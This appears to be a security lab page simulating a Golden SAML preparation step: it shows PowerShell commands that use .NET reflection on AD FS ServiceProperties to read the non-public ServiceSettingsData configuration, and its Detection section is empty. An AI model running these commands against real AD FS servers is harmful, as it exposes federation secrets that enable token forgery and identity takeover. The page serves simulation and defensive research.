 # Export AD FS Configuration via .NET Reflection

By default, AD FS servers come with a [PowerShell module](https://docs.microsoft.com/en-us/powershell/module/adfs/?view=windowsserver2022-ps) to administer Active Directory Federation Services (AD FS). This PS module has a PowerShell Cmdlet [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) that allows authorized users to get publicly accessible information such as properties associated with the AD FS service.

The [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) PS cmdlet returns a [Type object](https://docs.microsoft.com/en-us/dotnet/api/system.type?view=net-6.0) that represents the [ServiceProperties](https://docs.microsoft.com/en-us/dotnet/api/microsoft.identityserver.management.resources.serviceproperties?view=adfs-2019) .NET class.

A threat actor could use .NET reflection to access non-public metadata of the [ServiceProperties](https://docs.microsoft.com/en-us/dotnet/api/microsoft.identityserver.management.resources.serviceproperties?view=adfs-2019) .NET class to get to sensitive information such as the AD FS configuration.

![](../../../../images/labs/GoldenSAML/exportADFSConfiguration/2021-06-01_export_adfs_configuration_reflection.jpg)

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [References](#references)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get AD FS Service Public Properties

On the AD FS Server, open a PowerShell console and use the [Get-AdfsProperties](https://docs.microsoft.com/en-us/powershell/module/adfs/get-adfsproperties?view=windowsserver2022-ps) PS cmdlet.

```PowerShell
$ServiceProperties = Get-ADFSProperties
$ServiceProperties
```

### Access Object Members

We can access members (properties, methods, fields, events, and so on) of the current `Type` class with the PowerShell Cmdlet [Get-Member](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-member?view=powershell-7.2).

```PowerShell
$ServiceProperties | Get-Member
```

### Access Non-Public Properties

A threat actor could use [System.Reflection.BindingFlags enums](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.bindingflags?view=net-6.0) to control binding and the way in which the search for members and types is conducted by reflection. One could use the following BindingFlags to search for non-public / private members:

```
[System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic
```

Run the following commands to get non-public properties

```PowerShell
$ServiceProperties.GetType().GetProperties([System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic) | Select-Object Name
```

### Access ServiceSettingsData Non-Public Property

Export the non-public property `ServiceSettingsData` with the following commands:

```PowerShell
$ServiceSettingsDataProperty  = $ServiceProperties.GetType().GetProperty("ServiceSettingsData", [System.Reflection.BindingFlags]::Instance -bor [System.Reflection.BindingFlags]::NonPublic)
$ServiceSettingsDataPropertyValue = $ServiceSettingsDataProperty.GetValue($ServiceProperties, $null)
$ServiceSettingsDataPropertyValue
```

## Detection

## Output

* AD FS Configuration Settings


## References

* https://github.com/Microsoft/adfsToolbox/blob/master/serviceAccountModule/Tests/Test.ServiceAccount.ps1#L199-L208
* https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
* https://redcanary.com/blog/amsi/